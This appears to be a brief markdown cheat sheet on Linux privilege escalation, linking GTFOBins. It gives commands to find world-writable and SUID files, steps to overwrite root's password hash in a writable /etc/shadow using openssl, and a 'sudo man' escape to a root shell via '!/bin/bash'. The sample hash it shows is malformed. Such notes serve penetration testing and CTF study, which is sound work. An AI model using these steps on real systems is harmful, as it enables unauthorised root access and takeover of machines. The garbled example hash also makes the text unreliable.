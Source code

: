 # Privilege Escalation [gtfobins](https://gtfobins.github.io/)

- __1.find / -not -type l -perm -o+w__
- __2.find /  -perm -u=s -type f 2>/dev/null__

- __If you have permission to write `/etc/shadow` use the below commands__
  - __First you need to creat a one hash password using openssl__
    - __`openssl passwd -1 -salt abc password123` it will give you a hash `$1$abc$DSFILJKSD7393llsd.0s/` copy that__
    - __Edit the root password__
      - __`root:$1$abc$DSFILJKSD7393llsd.0s/:1772:0:99999:7:::`__
     

 # sudo -l
- __1.root) NOPASSWD: /usr/bin/man__
    - __Type this `sudo man ls` it will display document of the ls__
    - __In the document itself `type !/bin/bash` you will get the root shell__
    - __To read the content of the file you can use `man <file_name>`__

